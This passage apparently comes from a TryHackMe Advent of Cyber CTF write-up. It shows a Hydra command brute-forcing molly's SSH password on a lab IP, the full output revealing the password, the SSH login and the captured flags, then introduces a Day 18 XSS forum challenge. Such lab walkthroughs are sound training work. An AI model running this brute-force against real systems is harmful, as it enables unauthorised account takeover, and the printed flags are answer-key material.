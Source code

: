 `THM{2673a7dd116de68e85c48ec0b1f2612e}`

2. Use Hydra to bruteforce molly's SSH password. What is flag 2?

`hydra -l molly -P /usr/share/wordlists/rockyou.txt ssh://10.10.132.190`

```
kali@kali:~/CTFs/tryhackme/Advent of Cyber$ hydra -l molly -P /usr/share/wordlists/rockyou.txt ssh://10.10.132.190 -I
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-10-03 09:25:26
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.132.190:22/
[22][ssh] host: 10.10.132.190   login: molly   password: butterfly
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 0 targets did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-10-03 09:25:53
```

```
kali@kali:~/CTFs/tryhackme/Advent of Cyber$ ssh molly@10.10.132.190

molly@ip-10-10-132-190:~$ ls
flag2.txt
molly@ip-10-10-132-190:~$ cat flag2.txt
THM{c8eeb0468febbadea859baeb33b2541b}
```

`THM{c8eeb0468febbadea859baeb33b2541b}`

## [Day 18] ELF JS

McSkidy knows the crisis isn't over. The best thing to do at this point is OSINT

we need to learn more about the christmas monster

During their OSINT, they came across a Hacker Forum. Their research has shown them that this forum belongs to the Christmas Monster. Can they gain access to the admin section of the forum? They haven't made an account yet so make sure to register.

Access the machine at http://[your-ip-address]:3000 - **it may take a few minutes to deploy.**

Check out the supporting material [here](https://docs.google.com/document/d/19TJ6ANmM-neOln0cDh7TPMbV9rsLkSDKS3nj0eJaxeg/edit#).

*P.S. If you want to learn more about XSS, we have a [room](https://tryhackme.com/room/xss) where you can learn about it in depth.*
